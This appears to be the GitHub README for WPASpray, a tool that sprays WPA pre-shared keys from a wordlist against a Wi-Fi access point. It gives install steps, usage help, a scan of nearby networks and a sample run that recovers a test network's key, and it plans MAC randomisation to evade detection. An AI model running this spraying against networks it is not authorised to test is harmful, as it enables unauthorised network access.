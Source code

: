 # WPASpray

A WiFi attack vector for spraying WPA Pre-Shared Keys against an access point.

## Installation

1. Navigate to the [releases page](../releases) and donwload the latest .deb
2. Run ```apt install ./wpaspray-1.0-x86_64.deb```

### Note

When installing in Kali if you see the error ```N: Download is performed unsandboxed as root as file ...``` it is safe to ignore.

This is just apt saying that it doesn't have an ```_apt``` user to download and install the .deb file with that is non-root, non-login, and sandboxed.
If this error concerns you, you can follow these alternate installation instructions:

1. Run ```dpkg -i wpaspray-1.0-x86_64.deb```
2. Run ```apt install -f```

And you should encounter no errors.

## Examples

#### Usage
```
~# wpaspray -h
usage: wpaspray [-h] [-s] [-i INTERFACE] [-w WORDLIST] [-b BSSID] [-t TIMEOUT]             

WPASpray, an attack vector for spraying WPA Pre-Shared Keys against an access point.                                      

optional arguments:                         
  -h, --help            show this help message and exit                                 
  -s, --scan            Scan for available access points.                               
  -i INTERFACE, --interface INTERFACE       
                        Interface to use.   
  -w WORDLIST, --wordlist WORDLIST          
                        Wordlist to use. 1 password/phrase per line. Passwords          
                        less than 8 characters or lines starting with a '#'             
                        will be ignored.    
  -b BSSID, --bssid BSSID                   
                        BSSID of the target access point                                
  -t TIMEOUT, --timeout TIMEOUT             
                        Timeout to wait for a handshake with each password              
                        attempt. Default is no timeout.
```

#### Scan for available target access points:
```
~# wpaspray -i wlan1 -s
[ INIT ] Initializing...
[ INIT ] Complete.
[ SCAN ] Scanning for access points...
[ SCAN ] Complete.
[ SCAN ] Printing results...
      BSSID                     SSID               FREQUENCY  SIGNAL    TYPE   KEYMGMT 
---------------------------------------------------------------------------------------
E4:8D:8C:5C:07:CB  TestingWPA                      2.4 Ghz    -23 dBm  WPA2    wpa-psk   
DC:EF:09:A6:06:22  NETGEAR73                       2.4 Ghz    -61 dBm  WPA2    wpa-psk   
F0:F2:49:8B:90:48  CGNM-9048                       2.4 Ghz    -63 dBm  WPA2    wpa-psk   
64:77:7D:9F:B6:D8  CGNM-B6D8                       2.4 Ghz    -69 dBm  WPA2    wpa-psk   
00:FC:8D:93:0A:18  CGNM-0A18                       2.4 Ghz    -71 dBm  WPA2    wpa-psk   
C0:C1:C0:E6:2B:BD  Bright                          2.4 Ghz    -75 dBm  WPA2    wpa-psk   
84:94:8C:BF:FA:38  CGN-FA30                        2.4 Ghz    -77 dBm  WPA2    wpa-psk
```

#### Target a specific AP
```
~# wpaspray -i wlan0 -b e4:8d:8c:5c:07:cb -w wordlist.txt
[ INIT ] Initializing...
[ INIT ] Complete.    
[ SCAN ] Scanning for access points...      
[ SCAN ] Complete.    
[ SPRAY ] Starting password spray...        
[ SPRAY ] Target: BSSID 'E4:8D:8C:5C:07:CB'  SSID: 'TestingWPA'  Signal: -17 dBm        
[ SPRAY ] Trying psk: 'Password01!'         
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] disconnected
[ SPRAY ] scanning    
[ SPRAY ] Trying psk: 'Princess'            
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] disconnected
[ SPRAY ] scanning    
[ SPRAY ] Trying psk: 'TestPass12345!'      
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] completed   
[ SPRAY ] ############# SUCCESS! #############                                          
[ SPRAY ] # BSSID: 'E4:8D:8C:5C:07:CB'       #                                          
[ SPRAY ] # SSID: 'TestingWPA'               #                                          
[ SPRAY ] # Pre-Shared Key: 'TestPass12345!' #                                          
[ SPRAY ] ####################################
```

## Building From Source

If you choose to build the package yourself you can follow the guide below.

1. Clone the repository. `git clone github.com/nodocify/wpaspray.git`
2. Make sure you have EPM installed. `sudo apt install epm`
3. Navigate into the wpaspray directory and run `epm -f deb -v wpaspray`
4. EPM will create a new directory named after your kernel. Deb is located inside.

## To Do
* Have option to randomize MAC every X number of PSK attempts.
* Option to create a delay between attempts. Helpful for lower end access points.
